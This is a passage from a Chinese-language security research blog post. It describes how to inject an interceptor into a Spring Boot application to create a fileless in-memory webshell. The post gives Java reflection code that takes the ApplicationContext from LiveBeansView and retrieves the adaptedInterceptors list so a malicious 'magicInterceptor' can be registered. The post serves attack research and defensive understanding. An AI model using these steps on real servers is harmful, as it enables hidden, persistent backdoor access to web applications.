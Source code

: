 然后，根据 **0x01: 探索** 中的详细分析，我选择把上面的 `magicInterceptor` 类实例手动注入到 `org.springframework.web.servlet.handler.AbstractHandlerMapping` 类的 `adaptedInterceptors` 属性中。

这里就遇到了个问题，怎么拿到当前代码运行环境中原来的 `adaptedInterceptors` 属性值呢？

如果理解了我早先写的一篇文章 [基于内存 Webshell 的无文件攻击技术研究](https://landgrey.me/blog/12/)，就会很自然的想到，可以从当前代码运行时的上下文环境 `ApplicationContext` 中去寻找。

早先文章中提供了四种获取 `ApplicationContext` 的办法，这里再提供一种我 debug spring boot 源码时发现的另一种办法。

spring boot 初始化过程中会往  `org.springframework.context.support.LiveBeansView` 类的 `applicationContexts` 属性中添加  `org.springframework.boot.web.servlet.context.AnnotationConfigServletWebServerApplicationContext`  类的对象。

 `applicationContexts` 属性定义如下所示：

```java
private static final Set<ConfigurableApplicationContext> applicationContexts = new LinkedHashSet();
```

因为使用了 `private static final` 修饰符，所以可以直接反射获取属性值。

示例代码如下：

```java
// 1. 反射 org.springframework.context.support.LiveBeansView 类 applicationContexts 属性
java.lang.reflect.Field filed = Class.forName("org.springframework.context.support.LiveBeansView").getDeclaredField("applicationContexts");
// 2. 属性被 private 修饰，所以 setAccessible true
filed.setAccessible(true);
// 3. 获取一个 ApplicationContext 实例
org.springframework.web.context.WebApplicationContext context =(org.springframework.web.context.WebApplicationContext) ((java.util.LinkedHashSet)filed.get(null)).iterator().next();
```



值得注意的是，因为 `org.springframework.context.support.LiveBeansView`  类在 `spring-context` **3.2.x** 版本（现在最新版本是 **5.3.x**）才加入其中，所以比较低版本的 spring 无法通过此方法获得 `ApplicationContext` 的实例。



### 三. 获取 `adaptedInterceptors` 属性值

获得 `ApplicationContext` 实例后，还需要知道 `org.springframework.web.servlet.handler.AbstractHandlerMapping` 类实例的 bean name 叫什么。

自己研究过或者分析过我 [早先文章](https://landgrey.me/blog/12/) 的应该已经比较清楚了， bean 实例名字是 `requestMappingHandlerMapping` 或者比较老版本的 `DefaultAnnotationHandlerMapping` 。那么获取 `adaptedInterceptors` 属性值就比较简单了：

```java
org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean("requestMappingHandlerMapping");
java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
field.setAccessible(true);
java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);
```
